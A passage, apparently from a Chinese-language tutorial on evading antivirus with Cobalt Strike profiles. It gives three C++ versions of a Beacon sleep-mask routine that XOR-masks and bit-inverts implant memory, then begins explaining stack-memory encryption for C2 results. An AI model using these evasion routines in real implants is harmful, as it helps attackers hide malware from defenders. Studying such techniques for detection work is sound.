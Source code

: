```cpp
// 如下代码每隔一个字节进行异或加密

void mask_section(SLEEPMASKP * parms, DWORD a, DWORD b) {
    while (a < b) {
        // 只有当 a 是偶数时才执行异或操作，这样可以确保每两个字节进行一次异或操作
        if (a % 2 == 0) {
            *(parms->beacon_ptr + a) ^= parms->mask[a % MASK_SIZE];
        }
        a++;
    }
}
```

```cpp
//根据字节的位置来动态生成密钥

void mask_section(SLEEPMASKP* parms, DWORD a, DWORD b) {
    while (a < b) {
        BYTE dynamic_key = (a * 37) & MASK_SIZE; // simple example of dynamic key generation
        *(parms->beacon_ptr + a) ^= dynamic_key;
        a++;
    }
}
```

```cpp
//异或加密结合自反运算，比如NOT运算

void mask_section(SLEEPMASKP * parms, DWORD a, DWORD b) {
   while (a < b) {
      *(parms->beacon_ptr + a) ^= parms->mask[a % MASK_SIZE];
      *(parms->beacon_ptr + a) = ~(*(parms->beacon_ptr + a));  // bitwise NOT
      a++;
   }
}
```



## 加密栈内存

当Beacon在目标机器上执行C2发来的命令时，这些命令的执行结果会发送到C2服务器，为了防止被检测到，这些结果字符串在传输过程中会被加密。当beacon处于“休眠”状态时，这些命令通常会以加密的形式存储在堆或栈内存中

比如在传统的shellcode加载器中，shellcode是存储在栈内存中(函数内部或外部的变量中)

![image-20231017160415389](利用CS的Profile文件实现免杀/image-20231017160415389.png)
